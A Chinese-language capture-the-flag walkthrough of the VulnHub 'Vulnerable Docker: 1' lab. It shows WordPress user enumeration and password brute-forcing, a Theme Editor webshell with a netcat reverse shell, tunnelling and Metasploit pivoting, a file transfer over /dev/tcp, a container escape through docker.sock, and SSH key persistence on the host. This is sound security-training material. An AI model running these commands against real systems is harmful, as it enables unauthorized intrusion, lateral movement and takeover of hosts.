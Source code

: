 # Vulnerable Docker: 1

2024-8-x https://www.vulnhub.com/entry/vulnerable-docker-1,208/

difficulty: begginer-intermediate

## IP

192.168.5.37

## Scan

Open Port -> 22,8000

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6p1 Ubuntu 2ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 45130881706d46c350ed3cabaed6e185 (DSA)
|   2048 4ce72b0152161d5c6b099d3d4bbb7990 (RSA)
|   256 cc2f62714cea6ca6d8a74feb822a22ba (ECDSA)
|_  256 73bfb4d6ad51e3992629b742e3ffc381 (ED25519)
8000/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-open-proxy: Proxy might be redirecting requests
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: NotSoEasy Docker &#8211; Just another WordPress site
|_http-generator: WordPress 4.8.1
```

直接看 8000 的 web 端口，是一个 wordpress 网站，wpscan 进行扫描，找到用户：

```
wpscan --url http://192.168.5.37:8000/ -e u
```

发现用户 bob 尝试对此用户爆破登陆，最终发现密码为 Welcome1 登陆 wp 后台，在 Theme Editor 中写入 webshell，并在 kali 上得到反弹的 shell。

```
nc -lvnp 8888
curl http://192.168.5.37:8000/wp-content/themes/twentyseventeen/404.php
```

登陆 wordpress 后，在首页上发现了第 1 个 flag: http://192.168.5.37:8000/wp-admin/post.php?post=43&action=edit

```
2aa11783d05b6a329ffc4d2a1ce037f46162253e55d53764a6a7e998

good job finding this one. Now Lets hunt for the other flags

hint: they are in files.
```

进入系统后，先升级下 tty。经过枚举，发现这是一个 docker 容器。

ip a s 发现了另外的一个网段 172.18.0.3 ，将 nmap 静态文件上传是目标机器对 172.18.0.0 网段进行扫描。发现存活的主机 ip 为 172.18.0.1 至 172.18.0.4

```
172.18.0.1
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  unknown

172.18.0.2
PORT     STATE SERVICE
3306/tcp open  mysql

172.16.0.3
PORT   STATE SERVICE
80/tcp open  http

172.18.0.4
PORT     STATE SERVICE
22/tcp   open  ssh
8022/tcp open  unknown
```

先创建动态端口转发方便后面的信息收集，使用 neoreg，将 tunnel.php 上传至 /var/www/html 文件夹中，在 kali 上启动 tunnel:

```
python3 neoreg.py -k thm -u http://192.168.5.37:8000/tunnel.php
```

然后配置 proxychains 并启动 firefox，访问 http://172.18.0.4:8022/ 就能看到 shell 的执行窗口。或者是用 msf 中的 autoroute 模块和 server_proxy 进行代理创建也可以达到同样的效果。

```
# 先获得一个meterpreter_reverse 的shell
ipconfig
run post/multi/manage/autoroute  或 run autoroute -s 172.18.0.0/16   run autoroute -p 或 route add 172.18.0.0 255.255.0.0 2
bg
route print
use auxiliary/scanner/portscan/tcp  # 进行存活主机IP扫描

# 利用msf的代理暴露给kali代理(kali上会创建一个1080的tcp监听，可以在proxychainis中使用)
use auxiliary/server/socks_proxy
run
```

msf 中的端口转发(可以直接在 kali 的浏览器上访问 127.0.0.1:1234 不用加代理，但是这需要提前知道这个端口是目标端口才行)：

```
# 将在本地127.0.0.1:1234上的访问转发至远程IP 172.18.0.4 的 8022 端口
meterpreter> portfwd add -l 1234 -r 172.18.0.4 -p 8022
```

http://172.18.0.4:8022/ 进入了另外一个 docker 容器，当前容器的用户是 root。发现 /run/docker.sock , 可以利用这个文件把宿主机挂载起来。

先下载 docker 静态文件到这个 docker 容器中，这时才能利用 docker 程序与宿主机进行通信:

kali 上执行：

```
nc -lvnp -q 5 3333 < docker-17.03.0-ce.tgz
```

docker 容器中执行：

```
cat < /dev/tcp/192.168.5.3/3333 > docker-17.03.0-ce.tgz
tar -zxvf docker-17.03.0-ce.tgz
```

同时知道宿主机上有 wordpress 的 image，可以直接进行利用。

```
cd docker
./docker -H unix:///run/docker.sock info

# 查看宿主机上的image
./docker -H unix:///run/docker.sock images

REPOSITORY                 TAG                 IMAGE ID            CREATED             SIZE
wordpress                  latest              c4260b289fc7        6 years ago         406 MB
mysql                      5.7                 c73c7527c03a        7 years ago         412 MB
jeroenpeeters/docker-ssh   latest              7d3ecb48134e        7 years ago         43.2 MB

./docker -H unix:///run/docker.sock run -v /:/mnt --rm -it wordpress chroot /mnt sh
```

得到第 3 个 flag:

```
# cat flag_3
d867a73c70770e73b65e6949dd074285dfdee80a8db333a7528390f6

Awesome so you reached host

Well done

Now the bigger challenge try to understand and fix the bugs.

If you want more attack targets look at the shadow file and try cracking passwords :P

Thanks for playing the challenges we hope you enjoyed all levels

You can send your suggestions bricks bats criticism or appreciations
on vulndocker@notsosecure.com
```

最后生成 id_rsa.pub 公钥，并写到/root/.ssh 文件夹中，这样就可以用 ssh 登陆到目标主机了。
